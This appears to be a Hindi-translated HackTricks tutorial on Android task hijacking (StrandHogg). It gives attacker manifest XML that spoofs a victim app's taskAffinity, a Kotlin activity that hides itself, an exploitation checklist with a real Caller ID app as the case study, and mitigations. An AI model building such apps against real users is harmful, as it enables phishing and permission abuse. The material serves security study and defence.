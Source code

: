# Android Task Hijacking

{{#include ../../banners/hacktricks-training.md}}

## Task, Back Stack and Foreground Activities

Android में, एक **task** मूल रूप से गतिविधियों का एक सेट है जिससे उपयोगकर्ता एक विशिष्ट कार्य पूरा करने के लिए इंटरैक्ट करते हैं, जो एक **back stack** के भीतर व्यवस्थित होता है। यह स्टैक गतिविधियों को इस आधार पर क्रमबद्ध करता है कि वे कब खोली गई थीं, सबसे हाल की गतिविधि को शीर्ष पर **foreground activity** के रूप में प्रदर्शित करता है। किसी भी समय, केवल यही गतिविधि स्क्रीन पर दिखाई देती है, जिससे यह **foreground task** का हिस्सा बन जाती है।

गतिविधि संक्रमणों का त्वरित विश्लेषण यहाँ है:

- **Activity 1** एकमात्र गतिविधि के रूप में foreground में शुरू होती है।
- **Activity 2** को लॉन्च करने से **Activity 1** को back stack में धकेल दिया जाता है, जिससे **Activity 2** foreground में आ जाती है।
- **Activity 3** शुरू करने से **Activity 1** और **Activity 2** स्टैक में और पीछे चले जाते हैं, **Activity 3** अब सामने होती है।
- **Activity 3** को बंद करने से **Activity 2** फिर से foreground में आ जाती है, जो Android के सुव्यवस्थित कार्य नेविगेशन तंत्र को प्रदर्शित करती है।

![https://developer.android.com/images/fundamentals/diagram_backstack.png](<../../images/image (698).png>)

---

## Task affinity attacks

`taskAffinity` Android को बताता है कि एक `Activity` किस task से *पसंद* करेगी। जब दो गतिविधियाँ समान affinity साझा करती हैं, **Android को उन्हें एक ही back-stack के भीतर मर्ज करने की अनुमति है, भले ही वे विभिन्न APKs से आती हों**।

यदि एक हमलावर उस स्टैक के **root** पर एक दुर्भावनापूर्ण गतिविधि रख सकता है, तो हर बार जब पीड़ित वैध एप्लिकेशन खोलता है, तो दुर्भावनापूर्ण UI वह पहली चीज होगी जो उपयोगकर्ता देखता है - फ़िशिंग या दुरुपयोग की अनुमति अनुरोधों के लिए बिल्कुल सही।

हमले की सतह कई डेवलपर्स की सोच से अधिक व्यापक है क्योंकि **हर गतिविधि स्वचालित रूप से एप्लिकेशन पैकेज नाम के बराबर एक affinity विरासत में लेती है** (जब तक डेवलपर `android:taskAffinity=""` सेट नहीं करता)। इसलिए *कुछ न करना* पहले से ही Android संस्करण 11 से पहले कार्य हाइजैकिंग के लिए ऐप को खुला छोड़ देता है।

### Classic "singleTask / StrandHogg" scenario

1. हमलावर एक गतिविधि घोषित करता है:
```xml
<activity android:name=".EvilActivity"
android:exported="true"
android:taskAffinity="com.victim.package"
android:launchMode="singleTask" >
<intent-filter>
<action android:name="android.intent.action.MAIN"/>
<category android:name="android.intent.category.LAUNCHER"/>
</intent-filter>
</activity>
```
2. दुर्भावनापूर्ण ऐप को एक बार शुरू किया जाता है ताकि कार्य (धोखाधड़ी वाली affinity के साथ) हाल की गतिविधियों में मौजूद हो।
3. जब उपयोगकर्ता बाद में असली एप्लिकेशन खोलता है, तो Android पाता है कि पहले से ही एक कार्य है जिसका **root affinity पैकेज से मेल खाता है** और बस उस कार्य को foreground में लाता है।
4. हमलावर का UI पहले दिखाया जाता है।

### Default–Affinity (no `singleTask`) variant  – Caller ID case study

**Caller ID (caller.id.phone.number.block)** एप्लिकेशन में रिपोर्ट की गई भेद्यता दिखाती है कि हमला *भी* डिफ़ॉल्ट `standard` लॉन्च मोड के खिलाफ काम करता है:

1. हमलावर एप्लिकेशन एक नकली रूट गतिविधि बनाता है और तुरंत खुद को छिपा लेता है:
```kotlin
class HackActivity : AppCompatActivity() {
override fun onCreate(savedInstanceState: Bundle?) {
super.onCreate(savedInstanceState)
moveTaskToBack(true)   // कार्य को हाल की गतिविधियों में रखें लेकिन दृष्टि से बाहर
}
}
```
2. मैनिफेस्ट को केवल पीड़ित पैकेज को `taskAffinity` में कॉपी करने की आवश्यकता है:
```xml
<activity android:name=".HackActivity"
android:exported="true"
android:taskAffinity="com.caller.id.phone.number.block" >
<intent-filter>
<action android:name="android.intent.action.MAIN"/>
<category android:name="android.intent.category.LAUNCHER"/>
</intent-filter>
</activity>
```
3. जैसे ही उपयोगकर्ता दुर्भावनापूर्ण ऐप को **एक बार** स्थापित और खोलता है, एक कार्य जिसका affinity पीड़ित पैकेज के बराबर है (लेकिन बैकग्राउंड में बैठा है) मौजूद होता है।
4. जब असली Caller ID एप्लिकेशन लॉन्च होता है, तो Android उस कार्य का पुनः उपयोग करता है और `HackActivity` को foreground में लाता है → फ़िशिंग विंडो/अनुमति का दुरुपयोग।

> NOTE: **Android 11 (API 30)** से शुरू होकर, सिस्टम डिफ़ॉल्ट रूप से एक ही UID का हिस्सा नहीं होने वाले दो पैकेजों को एक ही कार्य में नहीं रखता, इस विशेष रूप को कम करता है। पुराने संस्करणों में भेद्यता बनी रहती है।

---

## Detection & Exploitation checklist

1. लक्ष्य APK से `AndroidManifest.xml` खींचें और जांचें कि प्रत्येक `<activity>` (या वैश्विक `<application>` तत्व) में `android:taskAffinity=""` (खाली) **या** एक अनुकूलित मान है।
2. यदि नहीं, तो एक दुर्भावनापूर्ण ऐप बनाएं:
- `android:taskAffinity` = पीड़ित पैकेज नाम।
- उपयोगकर्ता को इसे एक बार खोलने के लिए एक `MAIN/LAUNCHER` इरादा प्रदान करें।
- वैकल्पिक रूप से तुरंत छिपाने के लिए `moveTaskToBack(true)` कॉल करें।
3. पीड़ित को उनके वैध एप्लिकेशन को खोलने दें → हाइजैक।

## Mitigation

डेवलपर्स को चाहिए:

* `<application>` स्तर पर स्पष्ट रूप से `android:taskAffinity=""` सेट करें (सिफारिश की गई) **या** प्रत्येक गतिविधि को एक अद्वितीय, निजी affinity दें।
* अत्यधिक संवेदनशील स्क्रीन के लिए, उपरोक्त को `android:launchMode="singleInstance"` या आधुनिक [`setLaunchMode`](https://developer.android.com/reference/android/content/pm/ActivityInfo#launchMode) सुरक्षा के साथ मिलाएं।
* ऐप के `targetSdkVersion` को अपग्रेड करें और **Android 11** व्यवहार परिवर्तन लागू करें जहां कार्य डिफ़ॉल्ट रूप से पैकेजों के बीच साझा नहीं होते हैं।

---

## References

- [https://blog.dixitaditya.com/android-task-hijacking/](https://blog.dixitaditya.com/android-task-hijacking/)
- [https://blog.takemyhand.xyz/2021/02/android-task-hijacking-with.html](https://blog.takemyhand.xyz/2021/02/android-task-hijacking-with.html)
- [Android Manifest Misconfiguration Leading to Task Hijacking in Caller ID app](https://github.com/KMov-g/androidapps/blob/main/caller.id.phone.number.block.md)
- [https://medium.com/mobile-app-development-publication/the-risk-of-android-strandhogg-security-issue-and-how-it-can-be-mitigated-80d2ddb4af06](https://medium.com/mobile-app-development-publication/the-risk-of-android-strandhogg-security-issue-and-how-it-can-be-mitigated-80d2ddb4af06)

{{#include ../../banners/hacktricks-training.md}}
